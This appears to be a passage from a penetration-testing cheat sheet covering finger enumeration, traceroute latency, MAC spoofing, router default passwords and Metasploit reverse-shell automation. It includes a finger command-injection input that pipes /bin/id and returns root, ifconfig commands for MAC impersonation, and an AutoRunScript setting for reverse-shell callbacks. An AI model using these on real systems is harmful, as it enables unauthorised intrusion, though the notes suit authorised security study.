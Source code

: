 ```
No Plan.



Login: test                             Name: test user

Directory: /home/test                   Shell: /bin/sh

Never logged in.

No mail.

No Plan.
```

Poorly written fingerd implementations allow attackers to pipe commands through the service, which are, in turn, run on the target host by the owner of the service process (such as root or bin under Unix-based systems).

```
# finger "|/bin/id@192.168.0.135"

[192.168.0.135]

uid=0(root) gid=0(root)
```
## Enumerating with Traceroute:

Latency jumps in Traceroute values can identify geographic data:

```
1 ms – within your LAN
25 ms – my home cable service in London to servers located in mainland UK
90 ms – typical home DSL in the US to google.com
100-150 ms – the transatlantic cable between the UK and New York state
600-2000 ms – typical VSAT remote to hub link
```

```source: https://www.tolaris.com/2008/10/09/identifying-undersea-fibre-and-satellite-links-with-traceroute/```

## Changing MAC Addresses:

Look up vendor MAC you want to impersonate: https://mac2vendor.com/

Change MAC:

```
sudo ifconfig <interface-name> down
sudo ifconfig <interface-name> hw ether <new-mac-address> 
sudo ifconfig <interface-name> up
```

# Routers:

Resources:

```
 https://www.routerpasswords.com
```
# Metasploit Callback Automation:

Use AutoRunScript to run commands on a reverse shell callback

```
set AutoRunScript multi_console_command -rc /root/commands.rc
```
```